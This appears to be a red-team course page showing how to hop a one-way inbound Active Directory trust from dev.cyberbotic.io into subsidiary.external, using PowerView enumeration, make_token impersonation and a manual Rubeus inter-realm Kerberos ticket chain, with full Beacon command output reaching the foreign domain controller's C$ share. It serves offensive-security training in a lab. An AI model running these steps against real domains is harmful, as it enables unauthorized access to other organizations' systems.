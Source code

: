 # One way (inbound)

**dev.cyberbotic.io** has a one-way inbound trust with **subsidiary.external**.

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : subsidiary.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM
```

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

dnshostname           
-----------           
ad.subsidiary.external
```

`SharpHound -c DcOnly -d subsidiary.external` will also work.

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external

GroupDomain             : subsidiary.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : subsidiary.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of subsidiary.external. The **MemberName** field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\Subsidiary Admins
```

If this is confusing, this is how it looks from the perspective of the subsidiary.external's domain controller.

![.gitbook/assets/1663788103.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788102/tr82bi9sxx1ek0criyk3.png)

`Get-NetLocalGroupMember` can enumerate the local group membership of a machine. This shows that `DEV\Subsidiary Admins` is a member of the local Administrators group on the domain controller.

```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external

ComputerName : ad.subsidiary.external
GroupName    : Administrators
MemberName   : DEV\Subsidiary Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True
```

This is a slightly contrived example - you may also enumerate where foreign groups and/or users have been assigned local admin access via Restricted Group by enumerating the GPOs in the foreign domain.

To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, `make_token` is the most straight forward method.

```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

MemberName
----------
jadams

beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/11/2021 18:00:26   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     02/17/2021 18:50:04   Users
          dir     02/19/2021 22:34:47   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 384mb    fil     03/16/2021 10:48:25   pagefile.sys
```

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

Next, request a referral ticket from the current domain, for the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap

[*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```

&#x20; Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`. This is the default configuration unless AES has been specifically configured on the trust, so this is not necessary "bad OPSEC".

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

Write this base64 encoded ticket to a file on your machine.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

Create a sacrificial logon session and import the ticket.

```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:03:50   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:15:11   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     05/16/2021 11:58:30   Users
          dir     05/16/2021 11:31:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     05/25/2021 08:39:47   pagefile.sys

 beacon> rev2self
```

Foreign Principals can also have DACL abuse primitives, where `DEV\Subsidiary Admins` could have abusable DACLs on principals within the `subsidiary.external` domain.
